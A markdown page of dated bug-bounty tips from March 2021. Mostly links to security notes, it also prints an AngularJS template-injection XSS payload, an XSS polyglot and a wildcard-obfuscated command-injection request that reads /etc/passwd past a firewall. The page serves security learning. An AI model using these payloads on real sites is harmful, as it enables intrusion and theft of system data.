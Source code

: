 # Bug Bounty Tips - March 2021

# 📅 01-Mar-2021
## Find Contact details for any sites using this dorks
1. site:site.tld intext:"
@site
.tld"
2. site:site.tld "security" | "admin" | "contact"
3. site:site.tld security.txt
4. /hunter.io
5. check whois for registrar info

## Broken Authentication tip
1. Added user in dashboard made him admin 
2. Remove user and again add same user
**Note :**If user gets admin without promoting then its broken issue.

## Mass Assignment/Auto binding vulnerability
- https://itzone.com.vn/en/article/mass-assignment-vulnerability-and-prevention

![img](https://pbs.twimg.com/media/EvONSJtXUAIQ4Xm?format=jpg&name=small)

# 📅 02-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 60
- [XSLT Injection ](https://twitter.com/harshbothra_/status/1366413262410059777?s=20)

## AngularJS Client-Side Template Injection as XSS payload for 1.2.24-1.2.29
```js
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

# 📅 03-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 61
- [Bypassing AWS Policies](https://twitter.com/harshbothra_/status/1366738335218028545?s=20)

# 📅 04-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 62
- [Source Code Review Guidelines](https://twitter.com/harshbothra_/status/1366968601324838912?s=20)

# 📅 06-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 64
- [Hidden Property Abuse (HPA) attack in Node.js](https://twitter.com/harshbothra_/status/1367833358760210434?s=20)

## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 65
- [HTTP Request Smuggling in 2020](https://twitter.com/harshbothra_/status/1367935554877202435?s=20)

# 📅 07-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 66
- [Dependency Confusion Attack](https://twitter.com/harshbothra_/status/1368286711038439425?s=20)

# 📅 08-Mar-2021
## m4ll0k Bug Bounty Tools
- https://github.com/m4ll0k/Bug-Bounty-Toolz

# 📅 09-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 67
- [Format String Vulnerabilities](https://twitter.com/harshbothra_/status/1368914428377272320?s=20)

# 📅 10-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 68
- [Mobile Application Dynamic Analysis](https://twitter.com/harshbothra_/status/1369303054777016324?s=20)

## XSS via HTTP Request Smuggling
- https://infosecwriteups.com/exploiting-http-request-smuggling-te-cl-xss-to-website-takeover-c0fc634a661b

# 📅 11-Mar-2021
## Slides from talks
- https://github.com/1ndianl33t/All-in-one_BugBounty_PDF_bundles/blob/master/README.md?s=09

## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 69
- [ Insecure Deserialization](https://twitter.com/harshbothra_/status/1369654854612787202?s=20)

## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 70
- [Web Cache Entanglement](https://twitter.com/harshbothra_/status/1369732836266184704?s=20)

## Desirialization Attacks
- https://github.com/kojenov/serial
- https://youtu.be/Y0QxwRyqlh8

## The Best XSS Polyglot! Police cars revolving lightPolice cars revolving light
```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## Bypass Firewalls
```http
GET /?cc=cat+/etc/passwd

403 Forbidden

GET /?cc=/???/??t+/???/??ss??

200
root:x:0:0:root...

Done bypass firewall
```

# 📅 12-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 71
- [OWASP Amass](https://twitter.com/harshbothra_/status/1370103728473182212?s=20)
